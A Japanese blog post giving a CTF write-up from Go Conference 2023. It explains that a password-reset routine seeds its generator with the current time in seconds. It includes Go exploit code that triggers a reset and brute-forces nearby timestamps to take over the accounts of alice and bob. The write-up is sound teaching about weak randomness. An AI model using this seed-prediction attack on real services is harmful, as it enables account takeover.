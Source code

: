```yaml
---
layout: post
title: GoCon2023だのCTF Writeupだの
tags: [Go, Go Conference, CTF]
thumb: true
---
```


こんにちは､びしょ〜じょです｡
パンを作りすぎてゲームする時間がなくなりました｡

# はじめに
さて本日は[Go Conference 2023](https://gocon.jp/2023)が開催された｡
弊社はプラチナスポンサーとして協賛しており､自分は一応スタッフ枠で参加したが､セッションを聞いて回ってました｡

また､弊社はCTFを出題していたのでした｡

https://twitter.com/mururururu/status/1664467300865695745

{% gh_repo kanmu/gocon-2023-office-hour %}

CTFまともに解けたの初めてでテンションアゲアゲマックなんで､解説していく｡

出題者によるプロの解説もよければ御覧ください｡

{% twicard "" https://tech.kanmu.co.jp/entry/2023/06/02/173145 %}

# Cracking password
Dockerを走らせると､インメモリDB(ただのGoの`map`)にaliceさんとbobさんの残高が保存される｡

各人の初期パスワードは､それぞれ`time.Now().UnixNano()`をseedとして渡した`generatePassword`により生成されている｡
一方､`resetPassword`をみるとseedが`time.Now().Unix()`になってる!

`/password-reset`を叩いた時間の秒数まで分かればパスワードが割れるわけですね｡
ガバガバセキュリティだぜ｡

初期パスワードのことは忘れて`/password-reset`を叩いてぶっこ抜く｡

```go:exploit.go
func crackPwd(u *User) {
	t := time.Now().Unix()
	passwordReset(u)

    // 秒なんで適当に揺らすガバ実装
	for i := t; i<=t+4; i++{
		u.Password = generatePassword(i) // main.goからコピペする
		r, _ := balance(u)
		if r != `{"error": "Authentication failed"}` {
			fmt.Printf("%+v\n", u)
			return
		}
	}

	panic(fmt.Sprintf("could not crack password for user %s", u.Id))
}

...
alice := &User{Id: "alice"}
bob := &User{Id: "bob"}
crackPwd(alice) // ☑
crackPwd(bob) // ☑
```
